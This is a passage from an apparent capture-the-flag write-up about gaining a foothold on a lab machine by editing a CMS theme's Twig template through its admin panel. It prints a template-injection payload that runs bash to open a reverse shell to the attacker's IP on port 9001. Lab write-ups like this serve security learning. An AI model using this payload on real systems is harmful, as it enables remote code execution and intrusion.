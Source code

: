 Then, I focused on "View & Edit templates".

![](attachments/talkative_15.png)

Then, clicked "base-2021" which is current theme. (Found from Configuration -> Main Configuration)

![](attachments/talkative_16.png)

As the reference guided, I put payload on the twig template file.

```
{{['bash -c "bash -i >& /dev/tcp/10.10.14.7/9001 0>&1"']|filter('system')}}
```

![](attachments/talkative_19.png)

After that, I checked "Maintenance -> Clear the cache".
